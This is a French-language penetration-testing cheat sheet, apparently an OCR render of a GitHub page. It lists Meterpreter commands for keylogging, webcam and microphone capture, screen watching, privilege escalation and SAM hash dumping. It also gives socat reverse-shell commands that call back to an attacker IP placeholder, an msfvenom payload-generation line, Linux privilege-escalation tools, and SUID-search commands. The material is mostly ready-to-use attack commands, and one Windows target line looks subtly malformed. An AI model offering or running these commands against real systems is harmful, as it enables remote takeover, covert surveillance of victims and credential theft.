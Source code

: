 **Autres commandes (elles seront listées sous différentes catégories dans le menu d'aide)** 

`idletime` : Renvoie le nombre de secondes d'inactivité de l'utilisateur distant.  
`keyscan_dump` : Vide la mémoire tampon des frappes  
`keyscan_start` : Commence à capturer les frappes de clavier  
`keyscan_stop` : Arrête la capture des frappes  
`screenshare` : Permet de regarder le bureau de l'utilisateur distant en temps réel  
`screenshot` : Capture d'écran du bureau interactif  
`record_mic` : Enregistre le son du microphone par défaut pendant X secondes  
`webcam_chat` : Démarre un chat vidéo  
`webcam_list` : Liste les webcams  
`webcam_snap` : Prend un instantané de la webcam spécifiée  
`webcam_stream` : Lit un flux vidéo à partir de la webcam spécifiée  
`getsystem` : Tente d'élever vos privilèges à ceux du système local  
`hashdump` : Extrait le contenu de la base de données SAM  

### Socat Basic Reverse Shell  

**Attaquant**  
`socat TCP-L:<PORT> -` => Universel  
`socat TCP-L:<PORT> EXEC:"bash -li"` => Linux  
`socat TCP-L:<PORT> EXEC:pwsh,pipes` => Windows  

**Cible**  
`socat TCP:<IP ATTAQUANT>:<PORT> EXEC:"bash -li"` => Linux  
`socat TCP-L:<IP ATTAQUANT>:<PORT> EXEC:pwsh,pipes` => Windows  

### Socat Extended Reverse Shell
`socat TCP:<IP ATTAQUANT>:<PORT> EXEC:"bash -li",pty,stderr,sigint,setsid,sane`

### Merterpreter
`msfvenom --list payload`  
`msfvenom -p <PAYLOAD> -f <FORMAT> -o <OUTPUT> LHOST=<IP ATTAQUANT> LPORT=<PORT>`

## Escalade de privilèges sous Linux

### Énumération
>- [LinEnum](https://github.com/rebootuser/LinEnum)  
>- [LinPEAS](https://github.com/carlospolop/PEASS-ng/blob/master/linPEAS/README.md)

### Scripts
>- [LES (Linux Exploit Suggester)](https://github.com/mzet-/linux-exploit-suggester)  
>- [Linux Smart Enumeration](https://github.com/diego-treitos/linux-smart-enumeration)  
>- [Linux Priv Checker](https://github.com/linted/linuxprivchecker)  

### Séquences d'échappement Shell 
> **[GTFOBins](https://gtfobins.github.io)** 
>>- Variable d'environnement *sudo*
>>- Crontab en général
>>- SUID/SGID
>>>- `find / -perm -2000 -type f 2>/dev/null`
>>>- `find / -perm -4000 -type f 2>/dev/null` 
>>>- `find / -perm -6000 -type f 2>/dev/null` 
